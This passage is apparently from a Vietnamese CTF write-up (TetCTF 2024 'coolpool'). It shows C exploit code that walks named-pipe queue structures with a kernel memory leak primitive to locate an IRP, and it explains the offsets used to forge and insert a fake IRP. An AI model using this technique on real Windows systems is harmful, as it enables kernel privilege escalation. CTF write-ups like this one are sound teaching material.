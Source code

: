 ```
    int list_dq[2] = { 0x48, 0xa8 }; // Offset to Queue. Have 2 Queue in CCB, I dont Know why

    while (max++ < 5000) {
        max++;
        DATA_QUEUE_ENTRY data_queue_entry;
        NP_DATA_QUEUE data_queue;
        ULONG64 stop_entry;
        for (int count = 0; count < 2; count++) {
            leakMem(ULONG64(ccb_entry.Flink - 0x18 + list_dq[count]), sizeof(NP_DATA_QUEUE), (UCHAR*)&data_queue);
            stop_entry = ccb_entry.Flink - 0x18 + list_dq[count];
            int max_iter = 0;
            while (stop_entry && max_iter < 100) {
                max_iter++;
                leakMem(ULONG64(data_queue.Queue.Flink), sizeof(DATA_QUEUE_ENTRY), (UCHAR*)&data_queue_entry);

                if (data_queue_entry.EntryType == Unbuffered && !isBlacklist(data_queue_entry.Irp) && data_queue_entry.Irp > 0xFFFFFFFF) {
                    printf("[+]Detect Irp : %llx\n", data_queue_entry.Irp);
                    return data_queue_entry.Irp;
                }
                if (stop_entry == data_queue_entry.Flink
                    || (data_queue_entry.Flink < 0xffffffff && data_queue_entry.Blink < 0xffffffff)) stop_entry = NULL;
            };
        };

        leakMem(ULONG64(ccb_entry.Flink), 0x10, (UCHAR*)&ccb_entry);
        if (ccb_entry.Flink == stop) break;
    }

    return NULL;
}

```

Phần tìm Control Context Block mình cũng làm tương tự

Và ở bên trên mình có sử dụng những hardcoded ở hàm `craft_write_entry` dòng `entry->Blink = entry->Flink = leakNewCCB() - 0x18 + 0xa8` , `0xa8` đó là offset từ CCB cho tới Queue , và `0x18` ở đây là offset từ CCB cho tới LIST_ENTRY CCB

Vậy là sau những bước trên thì chúng ta sẽ được

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1706948102241/cc05c155-2f3d-437f-83bc-ed9b2623b6e6.png?auto=compress,format&format=webp)

### [](https://dungnm.hashnode.dev/pwn-coolpool-tetctf2024#heading-insert-irp-to-list "Permalink")Insert IRP to List

Tiếp theo sau khi đã hoàn thành các công việc Leak `ForgeIRP` thì chúng ta cần chèn `ForgeIRP` vào trong LIST_ENTRY của Thread, để làm được việc này thì mình sẽ trigger bằng hàm `ReadFile(NamedPipeArray[leakPipe].Read, bufRead, 1, &BytesReturned, 0)` lúc này stack trace mong muốn sẽ là
